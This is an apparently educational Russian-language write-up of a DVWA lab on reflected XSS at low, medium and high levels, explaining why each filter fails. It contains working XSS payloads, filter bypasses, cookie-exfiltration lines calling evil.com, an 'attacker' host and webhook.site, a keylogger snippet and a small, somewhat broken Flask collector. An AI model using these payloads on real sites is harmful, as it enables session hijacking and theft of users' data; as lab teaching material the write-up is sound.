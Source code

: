 ## 🔥 **XSS (Cross-Site Scripting)**: Что ты сейчас проверил?

Ты протестировал **Reflected XSS** на трёх уровнях сложности: `low`, `medium`, `high`.

---

## 🔹 Уровень Low

### 📍 URL:

```
http://localhost:8081/vulnerabilities/xss_r/?name=<script>alert(1)</script>
```

### 🔍 Что происходит?

1. Ты передал в `GET` параметре `name` JavaScript-код: `<script>alert(1)</script>`
2. Приложение просто вставило это в HTML-ответ, **без фильтрации**:

   ```html
   Hello <script>alert(1)</script>
   ```
3. Браузер исполнил JS — ты увидел `alert(1)`

### 🛠️ Уязвимость:

**Reflected XSS (OWASP A03:2021 — Injection)**

* Приложение **не фильтрует входящие данные** перед выводом на страницу.
* Вредоносный код может быть внедрён через URL, и **исполнен в браузере жертвы**.

---

## 🔹 Уровень Medium

### 📍 Код, который ты ввёл:

```html
<ScRiPt>alert(document.cookie)</ScRiPt>
```

Он тоже сработал. Почему?

* Хотя фильтрация есть, она **не различает регистр символов** (`ScRiPt` ≈ `script`).
* Это типичная ошибка при **наивной фильтрации**.

### 🔐 Что ты увидел?

```text
PHPSESSID=...; language=en; ...
```

— Это **HTTP cookie**, включающее **идентификатор сессии** (`PHPSESSID`).

---

## 🔥 Как злоумышленник может использовать это?

### 1. 📬 **Похищение куки (session hijacking)**:

Вместо `alert(document.cookie)` вставляется **отправка данных на внешний сервер**:

```html
<script>
fetch("https://evil.com/steal?c=" + document.cookie)
</script>
```

Или даже короче:

```html
<img src="https://evil.com/steal?c=" + document.cookie>
```

Жертва открывает ссылку — её кука **уходит злоумышленнику**, который может:

* Использовать куку `PHPSESSID` и **залогиниться как жертва**.
* Получить доступ к сессии, даже **без логина и пароля**.

---

## 🔹 Уровень High

### 📄 Ты посмотрел исходник:

```php
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
```

Это **регулярка**, которая удаляет любые вхождения `script`, даже если они разорваны.

### 🤯 Но ты обошёл фильтр так:

```html
<img src=123.png onerror="alert(document.cookie)">
```

Почему сработало?

* **`<img>`** — это **не `script`**, его фильтр **не блокирует**.
* **Атрибут `onerror`** — вызывается, если картинка **не загрузилась** (в твоём случае, `123.png` не существует).
* JS-код в `onerror="..."` успешно исполняется.

---

## 🧠 Что ты только что продемонстрировал?

### ✅ Клиентская уязвимость: **Reflected XSS**

* Вставка вредоносного кода через URL → JS выполняется у жертвы.

### ✅ Обход фильтров через:

* Разные регистры (`ScRiPt`)
* Альтернативные теги (`<img>`, `<svg>`, `<iframe>`)
* События (`onerror`, `onload`, `onclick`, `onmouseover`)

---

## 🎯 Реальное применение XSS

| Атака             | Как выполняется                                                 | Цель                       |
| ----------------- | --------------------------------------------------------------- | -------------------------- |
| Похищение cookies | `<img src="http://attacker/cookie?c="+document.cookie>`         | Перехват сессии            |
| Keylogger         | `<script>document.onkeypress=function(e){fetch(...);}</script>` | Захват ввода               |
| Deface            | `<script>document.body.innerHTML="Hacked!"</script>`            | Нарушение интерфейса       |
| CSRF через XSS    | `<script>fetch('/transfer?amount=10000')</script>`              | Атака от лица пользователя |

---

## 📤 Отправка данных злоумышленнику

1. **Создай сервер** (например, на ngrok, Flask, Express.js) для сбора данных:

   ```python
   from flask import request
   app.route('/steal')
   def get_data():
       print(request.args.get('c'))  # куки жертвы
   ```

2. Или используй готовые сервисы:

   * [https://webhook.site](https://webhook.site) — даёт URL и показывает всё, что туда пришло.

3. Инжектишь в XSS:

   ```html
   <script>
     fetch("https://webhook.site/your-id?cookie=" + document.cookie)
   </script>
   ```

---

## 📁 Как смотреть исходники на "реальном" сайте

Если на сайте нет открытой кнопки "View Source":

1. Используй **Burp Suite** — перехватывай запрос, меняй параметры, смотри ответы.
2. Или включай DevTools → `Sources` и `Network` — смотри скрипты и ответы сервера.
3. Запроси `/vulnerabilities/xss_r/source/high.php` — если сайт позволяет смотреть `source`, получишь код.

На **своём сайте** — логично, ты просто заходишь в `source` через IDE или FTP/SSH.

---

## 🧠 Резюме

| Твоя атака               | Как сработала    | Что показала        |
| ------------------------ | ---------------- | ------------------- |
| `script>alert(1)`        | Не фильтровалось | XSS уровня Low      |
| `alert(document.cookie)` | Вывод куки       | session hijack      |
| `<img onerror=...>`      | Обход фильтра    | XSS высокого уровня |
